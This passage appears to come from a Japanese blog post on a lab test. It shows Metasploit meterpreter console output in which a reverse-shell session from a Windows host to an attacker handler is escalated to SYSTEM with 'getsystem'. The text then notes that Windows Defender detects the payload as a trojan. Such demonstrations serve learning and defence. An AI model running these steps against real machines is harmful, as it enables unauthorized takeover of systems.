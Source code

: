 ```
  1   meterpreter x86/win32  CONTOSO\Administrator @ CLIENT  10.10.10.80:4444 -> 10.10.20.70:49596 (10.10.20.70)

msf exploit(handler) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > getsystem 
...got system (via technique 1). 
meterpreter > shell 
Process 2924 created. 
Channel 1 created. 
Microsoft Windows [Version 6.3.9600] 
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami -priv 
whoami -priv

PRIVILEGES INFORMATION 
----------------------

Privilege Name                  Description                               State 
=============================== ========================================= ======= 
SeLockMemoryPrivilege           Lock pages in memory                      Enabled 
SeTcbPrivilege                  Act as part of the operating system       Enabled 
SeSystemProfilePrivilege        Profile system performance                Enabled 
SeProfileSingleProcessPrivilege Profile single process                    Enabled 
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled 
SeCreatePagefilePrivilege       Create a pagefile                         Enabled 
SeCreatePermanentPrivilege      Create permanent shared objects           Enabled 
SeDebugPrivilege                Debug programs                            Enabled 
SeAuditPrivilege                Generate security audits                  Enabled 
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled 
SeTimeZonePrivilege             Change the time zone                      Enabled 
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled

C:\Windows\system32>whoami 
whoami 
nt authority\system

C:\Windows\system32>
```
 
無事、Windows マシンを乗っ取ることができたようです。恐ろしいことに、Administrator どころか System アカウントで動いています。しかも Kali Linux 側ではパスワードなどの入力は一切行っていません。

 
このコンソール上でウィンドウを持つアプリケーションを実行すると、v4L.exe を実行したコンソール上にウィンドウが表示されます。それを Process Explorer で見るとこんな感じになります。まだ何も調べていませんが、一体どういう仕組みなんでしょうかね。

 
![]({{site.assets_url}}2014-08-09-image8.png)

 
ただし、Windows もやられっぱなしというわけではありません。Windows Defender の real-time protection が有効になっていれば、v4L.exe はすぐに Trojan:Win32/Swrort.A として検出され、削除されます。 まさにトロイの木馬のうち、バックドア型のウィルスですね。

 
![]({{site.assets_url}}2014-08-09-image9.png)

